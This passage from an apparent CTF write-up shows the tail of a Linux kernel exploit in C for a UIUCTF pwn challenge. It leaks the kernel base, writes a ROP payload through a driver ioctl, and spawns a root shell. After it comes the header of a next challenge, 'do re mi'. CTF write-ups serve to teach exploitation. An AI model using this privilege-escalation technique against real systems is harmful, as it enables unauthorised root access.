 ```c

    int fd = open("/proc/self/stat", O_RDONLY);

    kread(buf);
    uint64_t start_ptr = *(uint64_t *)buf;
    kbase = start_ptr - 0x2ba4b0;

    printf("[+] Leaked start pointer: %#lx\n", start_ptr);
    printf("[+] Kernel base: %#lx\n", kbase);
    printf("[+] commit_creds: %#lx\n", COMMIT_CREDS);
    printf("[+] init_cred: %#lx\n", INIT_CRED);
    printf("[+] fork: %#lx\n", SYS_FORK);
    printf("[+] msleep: %#lx\n", MSLEEP);

    uint64_t payload[4] = {
            RET_1E0h, // start()
            1, 
            2,
            POP_RDI, // stop()
    };

    ioctl(driver_fd, USE_WRITE, payload);
    set_pt_regs();
    asm volatile(
        "mov rdx, 0x20;"
        "mov rsi, rsp;"
            "mov edi, %[fd];"
            "xor rax, rax;"
        "syscall;"          // read syscall on the seq fd 
        :
        : [fd] "r" (fd)
    );
    if(getuid() == 0) get_shell(0);
}
```

When we run the exploit, we are able to open the flag file as the root user.
![img](/images/exploit.png)

# do re mi

|||
|-|-|
|  **CTF**  |  [UIUCTF](https://2025.uiuc.tf/) [(CTFtime)](https://ctftime.org/event/2640)  |
|  **Author** |  Surg |
|  **Category** |  Pwn |
|  **Solves** |  44  |
